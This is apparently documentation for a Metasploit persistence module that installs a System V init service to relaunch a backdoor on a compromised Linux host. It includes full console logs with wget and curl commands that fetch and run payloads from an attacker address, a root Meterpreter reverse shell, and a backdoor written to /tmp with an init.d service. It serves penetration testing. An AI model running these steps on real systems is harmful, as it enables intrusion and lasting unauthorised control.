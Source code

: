 ## Vulnerable Application

This module will create a service via System V on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS <= 5
* Debian <= 6
* Kali 2.0
* Ubuntu <= 9.04

Note: System V won't restart the service if it dies, only an init change (reboot etc) will restart it.

Verified on [Kali 2.0](https://old.kali.org/kali-images/kali-2.0/kali-linux-2.0-amd64.iso)

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

**SERVICE**

The name of the service to create.  If not chosen, a random one is created.

**PAYLOAD_NAME**

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

**EnableService**

If the service should be enabled. Defaults to `true`

## Scenarios

### Kali 2.0

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l

[*] Server started.
[*] Run the following command on the target machine:
wget -qO 1KkF4s8n --no-check-certificate http://111.111.1.111:8181/l; chmod +x 1KkF4s8n; ./1KkF4s8n& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.22     web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.22:56459) at 2025-02-16 07:51:56 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/root) > getuid
Server username: root
(Meterpreter 1)(/root) > sysinfo
Computer     : kali2.0
OS           : Kali 2.0 (Linux 4.0.0-kali1-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/root) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_sysvinit 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_sysvinit) > exploit
[*] Command to run on remote host: curl -so ./BQVXqXpLiG http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./BQVXqXpLiG;./BQVXqXpLiG&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_sysvinit) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is System V based
[*] Writing backdoor to /tmp//MarxU
[*] Utilizing update-rc.d
[*] Writing service: /etc/init.d/JIxbnwyUcQ
[+] Enabling & starting our service
[*] Client 222.222.2.22 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.22 (curl/7.38.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.22
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.22:55807) at 2025-02-16 07:56:21 -0500
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/kali2.0_20250216.5622/kali2.0_20250216.5622.rc
```
